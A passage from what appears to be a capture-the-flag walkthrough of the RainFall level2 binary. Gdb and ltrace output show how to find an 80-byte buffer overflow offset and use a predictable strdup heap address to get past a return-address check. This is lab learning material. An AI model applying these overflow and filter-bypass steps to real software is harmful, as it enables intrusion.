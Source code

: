**Security Check Analysis:**
- **Stack addresses (0xbf000000-0xbfffffff)**: BLOCKED ❌
- **Heap addresses (0x08040000-0x0804ffff)**: ALLOWED ✅  
- **Code section (0x08048000-0x08049fff)**: ALLOWED ✅

**The Bypass Strategy Emerges:**
We can't use stack addresses, but we CAN use heap addresses! The strdup() call gives us a heap allocation with our controlled data.

### 8. Finding the Buffer Overflow Offset
```bash
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

# Analyzing the crash address
(gdb) print 0x37634136
$1 = 929251638
# This is "6Ac7" in little-endian

# Finding the position in our De Bruijn sequence
# "6Ac7" appears at position 80 in the pattern
```

**Offset Discovery:**
- **Buffer overflow offset**: 80 bytes
- **Return address location**: After 80 bytes of input
- **Crash confirmation**: Program tries to execute 0x37634136 ("6Ac7")

## Heap Address Discovery and Exploitation Strategy

### 9. Finding the Heap Allocation Address
```bash
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20) = 0
gets(0xbffff71c)  = 0xbffff71c
TEST
puts("TEST") = 5
strdup("TEST")  = 0x804a008
+++ exited (status 0) +++
```

**Heap Address Discovery:**
- **strdup() allocation**: Returns 0x804a008
- **Predictable address**: Heap allocations are consistent
- **Security check bypass**: 0x804a008 & 0xb0000000 = 0 ✅

